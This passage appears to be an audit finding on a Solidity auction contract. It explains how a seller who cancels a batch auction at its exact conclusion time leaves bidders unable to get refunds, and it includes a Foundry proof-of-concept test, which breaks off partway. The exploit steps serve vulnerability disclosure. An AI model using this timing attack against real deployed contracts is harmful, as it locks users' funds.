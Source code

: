         function refundBid(
                uint96 lotId_, 
                uint64 bidId_,
                address caller_ 
            ) external override onlyInternal returns (uint96 refund) {
                // Standard validation
        				...
                _revertIfLotConcluded(lotId_); 
                
          
                // Call implementation-specific logic
                return _refundBid(lotId_, bidId_, caller_); 
            }
            
            
            function _revertIfLotConcluded(uint96 lotId_) internal view virtual {
                // Beyond the conclusion time
                if (lotData[lotId_].conclusion < uint48(block.timestamp)) {
                    revert Auction_MarketNotActive(lotId_);
                }
        
                // Capacity is sold-out, or cancelled
                if (lotData[lotId_].capacity == 0) revert Auction_MarketNotActive(lotId_); // <----- This will make trying to refund always fail after the attack
            }
        ```

## Proof of Concept

The following proof of concept shows how the above scenario is possible. In order to execute the PoC, add the code below into `moonraker/test/AuctionHouse/bid.t.sol`, and run the following command inside `moonraker`: `forge test --mt testBugcancelAuctionAfterBidsHaveBeenSubmitted`

```solidity
// bit.t.sol

function testBugcancelAuctionAfterBidsHaveBeenSubmitted()
        external
        whenAuctionTypeIsBatch
        whenBatchAuctionModuleIsInstalled
        givenSellerHasBaseTokenBalance(_LOT_CAPACITY)
        givenSellerHasBaseTokenAllowance(_LOT_CAPACITY)
        givenLotIsCreated
        givenLotHasStarted
        givenUserHasQuoteTokenBalance(_BID_AMOUNT)
        givenUserHasQuoteTokenAllowance(_BID_AMOUNT)
    { 
 
        // Step 1. Create a bid
        uint64 bidId = _createBid(_BID_AMOUNT, _bidAuctionData);

        // Step 2. Move forward to the exact block.timestamp when the auction ends
        Auction.Lot memory lotData = _getLotData(_lotId);
        vm.warp(lotData.conclusion);

        // Step 3. As the auction creator, cancel the auction

        uint256 bidderBalanceBefore = _quoteToken.balanceOf(_bidder);

        vm.startPrank(_SELLER);
        _auctionHouse.cancel(_lotId, bytes(""));

        // Step 4. Bidder tries to get their funds refunded, but it is not possible, effectively locking
        // the bid forever.
        vm.startPrank(_bidder);
```